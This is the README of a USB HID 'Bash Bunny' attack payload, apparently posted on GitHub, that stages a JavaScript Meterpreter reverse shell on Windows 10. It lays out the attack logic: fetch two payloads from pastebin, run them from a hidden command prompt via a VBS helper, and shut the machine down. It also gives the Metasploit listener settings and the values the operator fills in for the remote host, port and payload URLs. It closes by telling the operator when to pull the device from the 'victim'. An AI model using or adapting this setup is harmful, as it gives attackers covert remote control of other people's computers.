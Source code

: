 JavaScript Meterpreter Stager Win x86_64

Author: subinacls
Version: Version 0.1
Target: Windows 10 x64

Description:

  Tested successful on Win10
  Modified from original posted code:
    https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
  USB HID Attck that attempts HTTP download of two (2) additional payloads.
  These files coinsist of:
    BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    inv.vbs -> creates hidden command terminal to execute commands
  Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  STAGE1():
    if payload does not exist on target:
      if inet connection:
        Attempts HTTPS connection to pastebin
          Grabs both payloads and save to %temp%
      else:
        Opens a cmd prompt, under current users context
          Echo contents to two files:
            BB-Meterpreter_winx64.js
            inv.vbs
  STAGE2():
    Executes hidden cmdshell via inv.vbs, launching payload
  STAGE3():
    Shutdown 0

Configuration:

  Listener:
    use exploit/multi/handler
    # use for x64
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    # use for x86
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 443
    set EnableUnicodeEncoding true
    set EnableStageEncoding true
    set ExitOnSession false
    exploit -j
  BashBunny:
    Edit JSRevMeter replacing the following:
      RHOST =>  Remote Listening Host
      RPORT =>  Remote Listening Port
      FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    Upload monilithic script to your BB

Status:

  LED	  =>  Status/PHASE
  Green	=>  Stage1/EXECUTING
  Red	  =>  Stage2/EXECUTING
  Blue  =>  Stage3/SHUTDOWN
  OFF   =>  Remove Device from victim
